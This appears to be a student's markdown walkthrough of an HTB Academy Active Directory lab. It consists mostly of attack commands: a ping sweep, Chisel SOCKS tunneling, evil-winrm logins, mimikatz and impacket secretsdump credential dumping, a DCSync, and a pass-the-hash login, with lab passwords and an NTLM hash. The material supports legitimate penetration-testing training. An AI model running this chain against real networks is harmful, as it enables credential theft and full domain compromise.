 # Skills Assessment Part I
```
$password = ConvertTo-SecureString 'lucky7' -AsPlainText -Force ; $cred = new-object System.Management.Automation.PSCredential ('INLANEFREIGHT.LOCAL\svc_sql', $password ); $s= New-PSSession -ComputerName MS01 -Credential $cred; Invoke-Command -Session $s { type C:\PATH\TO\ADMIN\FLAG.txt}

PS> 1..254 | % {echo "172.16.6.$_"; ping -n 1 -w 100 172.16.6.$_} | Select-String ttl

```

Reply from 172.16.6.3: bytes=32 time<1ms TTL=128     Administrator Desktop on DC01
Reply from 172.16.6.50: bytes=32 time<1ms TTL=128    svc_sql's desktop MS01
Reply from 172.16.6.100: bytes=32 time<1ms TTL=128

### Chisel from HTB academy - SOCKS5 Tunneling with Chisel
```
socks4        127.0.0.1 9050
OR
socks5 127.0.0.1 1080
```

```
C:\chisel.exe server -v -p 1234 --socks5

./chisel client -v 10.129.49.186:1234 socks

proxychains evil-winrm -i 172.16.6.50 -u svc_sql -p lucky7

.\mimikatz.exe SEKURLSA::LogonPasswords exit

```

### or use secretdump to get another user's hash(Lateral movement)

```
proxychains /usr/share/doc/python3-impacket/examples/secretsdump.py INLANEFREIGHT/svc_sql:"lucky7"@172.16.6.50
```

        wdigest :
         * Username : tpetty
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : tpetty
         * Domain   : INLANEFREIGHT.LOCAL
         * Password : Sup3rS3cur3D0m@inU2eR


### Get the final administrator's hash by dsync attack
```
proxychains /usr/share/doc/python3-impacket/examples/secretsdump.py INLANEFREIGHT/tpetty:"Sup3rS3cur3D0m@inU2eR"@172.16.6.3 -just-dc-user INLANEFREIGHT/administrator
```

### Login
```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```